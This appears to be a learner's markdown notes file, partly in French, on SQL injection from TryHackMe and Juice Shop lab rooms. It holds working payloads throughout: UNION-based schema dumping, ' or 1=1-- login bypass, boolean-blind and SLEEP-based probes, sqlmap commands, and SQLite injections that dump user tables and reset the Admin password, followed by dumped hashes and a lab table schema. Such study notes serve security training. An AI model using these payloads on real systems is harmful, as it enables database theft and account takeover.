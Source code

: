 # SQL injection

## Comments
MySQL interprets `#` and `--` as the beginning of comments



### Finding the vulnerability
`/about/2'` : l'apostrophe est souvent une bonne solution pour trouver une faille  
L'erreur qui aparait nous montre la vulnerabilité
### Use the vuln
```/about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people"```

### Display data 
Pour afficher tous les elements dans 1 seule fois  
/about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"

### Find the flag
/about/0 UNION ALL SELECT flag,null,null,null,null FROM people WHERE id = 1


## Room Juice shop

Injection SQL via Login
On peut utiliser Burp ou directement écrire dans 'email'

Si on ne connait pas d'adresse mail
	On force le login en tant qu'utilisateur 0
	
	' or 1=1-- à la place de l'adresse mail
	
	' -> est pour fermer la string
	or -> ça ou ça
	1=1 -> toujours vrai
	-- -> pour commenter la suite de la requête

Si on connait une adresse mail
	adresse@mail.com' --
	/!\ le ' doit être collé à la fin sinon -> erreur
	-- toujours pour commenter la suite

La présence ou non de mot de passe n'influe QUE sur le bouton 'continuer' qui peut être désactivé si aucun mot de passe n'est rentré.


## SQLi ROOM THM :
	How to look for SQLi :
		- Search for IN-BAND SQLi i.e. we can see the output
		- Search for ERROR-BASED swaping stuff as request parameters to ' or smth
		- Search for a UNION-BASED SQLi as <normal parameter> UNION 1
		
# ERROR BASED SQLi
	1st) Look for a proof of concept such as errors displayed on the screen
	2nd) Add parameters after the union as much as needed to avoid error 
		and change the very first param so it return nothing
	3rd) Dump database name by replacing a parameter by database()
	4th) Dump table names by replacing a parameter by :
		group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'db_name'
		--group_concat(..)		concat values separated by comas
		--table_name			column in information.schema
		--information_schema		db that is always present contains informations
	5ft) Dump column names of the database by replacing a parameter by :
		group_concat(column_name) FROM information_schema.columns WHERE table_name = 'db_name'
		--column_name 			column that contains database attribute names
	6th) Now that we have the structure, we can request by replacing the same parameter by :
		group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
	
	BLIND-BASED SQLi : Authentication bypass
		1st) Put ' or 1=1; -- in the username form, 
			maybe a password will need to be typed just to pass the form presets
		The first ' close the string, the or 1=1 return True, ';' is used to specify the end
		ans -- to delete following compares
		
# BOOLEAN BASED BLIND SQLi
		In this case, we expect a boolean that says if the request is correct or not
		(True/False; 0/1 ; yes/no ; ...)
		On doit donc chercher d'abord un booleen qui nous est retournée si la requête est valide.
		Le principe consiste à requêter des à valider la sortie si le boolean = True
		L'opérateur LIKE '%' est le concept même de cette faille
		
	PROOF OF CONCEPT 
	FIND NUMBER OF ATTRIBUTES 
		admin123' UNION SELECT 1;-- 		return false
		admin123' UNION SELECT 1,3;-- 		return false
		admin123' UNION SELECT 1,2,3;-- 	return true
		(note : admin123 is'nt in the db)
	FIND DATABASE NAME
		admin123' UNION SELECT 1,2,3 where database() like '%';-- 	return true
		admin123' UNION SELECT 1,2,3 where database() like 'a%';--	return false
		admin123' UNION SELECT 1,2,3 where database() like 's%';--	return true so 's' is the first letter
		...
		admin123' UNION SELECT 1,2,3 where database() = 'sqli_three';--	return true so db name is sqli_three
	FIND TABLES NAMES 
		admin123' UNION SELECT 1,2,3 FROM information_schema.tables 
			WHERE table_schema = 'sqli_three' and table_name like '%';-- same process
		(note : it may be more than one table)
	FIND COLUMN NAMES
		admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
			WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%'; --same process
		(note : it may be more than one column)
	FIND ATTRIBUTE VALUES
		admin123' UNION SELECT 1,2,3 from users where username like 'a%
	
# TIME BASED SQLi 
(this is when nothing show the request being wrong or right so if the request come back after a given time, it worked)
	
1. Try ```admin123' UNION SELECT SLEEP(5);-- -```  	
Since this not worked
2. Add attributs until it works
```admin123' UNION SELECT SLEEP(5),2;--```		
3. Start the boolean based process 
	
		
	
## TOOLS :
sqlmap
need to capture a request with burp and put it in request.txt
sqlmap -r request.txt --dbms-mysql --dump


## IDENTIFY VERSIONS :
- MySQL and MSSQL
',nickName=@@version,email='
- For Oracle
',nickName=(SELECT banner FROM $version),email='
- For SQLite
',nickName=sqlite_version(),email='

## MASTER DATABASE
- MySQL and MSSQL
information_schema.tables 	table_schema		table_name
- For Oracle
?
- For SQLite
sqlite_master						tbl_name	sql


nickName=',nickName=(SELECT GROUP_CONCAT(*) FROM sqlite_master),email='&email=email&password='
nickName=',nickName=SELECT * FROM sqlite_master,email='&email=email&password=
nickName=',nickName=sqlite_version(),email='&email=email&password=
DUMP TABLE NAMES
nickName=',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master),email='&email=email&password=
DUMP COLUMN NAMES
nickName=',nickName=(SELECT group_concat(sql) FROM sqlite_master WHERE name='usertable'),email='&email=email&password=
DUMP DATA
nickName=',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") FROM usertable),email='&email=email&password=
DUMP DATA2
nickName=',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") FROM secrets),email='&email=email&password=
nickName=Admin&email=&password=5dfac5ccc654a3474438474b85a4cfcc21c5239af327dffa02a0a27fbc7ca2a4' WHERE name='Admin';-- -
nickName=Admin', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -

SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable

6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25
5dfac5ccc654a3474438474b85a4cfcc21c5239af327dffa02a0a27fbc7ca2a4
 	10
Salary 	R250
Passport Number 	8605255014084
Nick Name 	CREATE TABLE `usertable` ( 
`UID` integer primary key, 
`name` varchar(30) NOT NULL, 
`profileID` varchar(20) DEFAULT NULL, 
`salary` int(9) DEFAULT NULL, 
`passportNr` varchar(20) DEFAULT NULL, 
`email` varchar(300) DEFAULT NULL, 
`nickName` varchar(300) DEFAULT NULL, 
`password` varchar(300) DEFAULT NULL )



